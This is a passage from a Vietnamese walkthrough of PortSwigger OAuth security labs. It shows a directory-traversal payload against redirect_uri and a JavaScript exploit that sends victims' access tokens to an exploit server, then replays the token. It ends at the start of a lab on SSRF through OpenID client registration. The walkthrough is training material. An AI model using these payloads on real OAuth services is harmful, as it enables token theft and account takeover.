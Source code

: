 Ngay cả đường dẫn tuyệt đối nó cũng chấp nhận redirect

>![](https://i.imgur.com/ZBIlaZD.png)

Tuy nhiên, bây giờ `redirect-uri` cần đúng chuẩn `https://0a9e00cd042b3a0480987186001d00aa.web-security-academy.net/oauth-callback`. Để bypass đoạn này ta có thể dùng directory traversal để điều hướng đến phần `next post`, và từ `next-post` ta có thể điều hướng đến exploit server.

payload:
```!
https://0a7400c804c6b7a2801eb2a600aa004a.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a6a008c04f5b7b08038b1b0019300e7.exploit-server.net/exploit/
```

Vậy bây giờ token đã được gửi đến exploit server, ta cần kiểm tra xem token được gửi dưới dạng gì (tham số gì hay fragment)

>![](https://i.imgur.com/Qe2ih1D.png)

Ta thấy access token được gửi về trên fragment, cần chuẩn bị payload để tách nó ra, như sau

```javascript!
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ae7008904163a3d80866fc7025e009b.oauth-server.net/auth?client_id=fwn84pz4j1iwcihpsvbzw&redirect_uri=https://0a9e00cd042b3a0480987186001d00aa.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a8a00b104233a2980c87022014d00ed.exploit-server.net/exploit/&response_type=token&nonce=60630693&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

Kiểm tra access log ta thấy có token gửi tới

>![](https://i.imgur.com/K9aC88U.png)

Dùng token đó để thay thế giá trị trong header `Authorization` ta có kết quả như hình dưới.
>![](https://i.imgur.com/RPg9UzH.png)


>![](https://i.imgur.com/221kvgQ.png)


## Bài 5: SSRF via OpenID dynamic client registration

>![](https://i.imgur.com/UgKxK1P.png)

Dịch vụ OAuth cho phép Client application tự đăng kí thông qua 1 post request tới 1 endpoint của Oauth, nội dung post sẽ có dạng như sau:

```json!
{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256",
    …
}
```
